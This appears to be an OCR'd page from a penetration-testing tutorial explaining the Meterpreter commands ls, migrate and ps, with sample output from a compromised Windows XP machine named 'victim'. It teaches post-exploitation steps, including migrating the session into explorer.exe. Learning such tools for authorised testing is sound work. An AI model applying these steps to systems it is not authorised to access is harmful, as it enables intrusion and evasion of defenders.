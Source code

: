 # 17 - ls

As in Linux, the ls command will list the files in the current remote directory.

```
meterpreter > ls

Listing: C:\Documents and Settings\victim
=========================================

Mode              Size     Type  Last modified                   Name
----              ----     ----  -------------                   ----
40777/rwxrwxrwx   0        dir   Sat Oct 17 07:40:45 -0600 2009  .
40777/rwxrwxrwx   0        dir   Fri Jun 19 13:30:00 -0600 2009  ..
100666/rw-rw-rw-  218      fil   Sat Oct 03 14:45:54 -0600 2009  .recently-used.xbel
40555/r-xr-xr-x   0        dir   Wed Nov 04 19:44:05 -0700 2009  Application Data
...snip...
```

# 18 - migrate

Using the migrate post module, you can migrate to another process on the victim.

```
meterpreter > run post/windows/manage/migrate

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)

meterpreter >
```

# 19 - ps

The ps command displays a list of running processes on the target.

```
meterpreter > ps

Process list
============

    PID   Name                  Path
    ---   ----                  ----
    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
...snip...
```
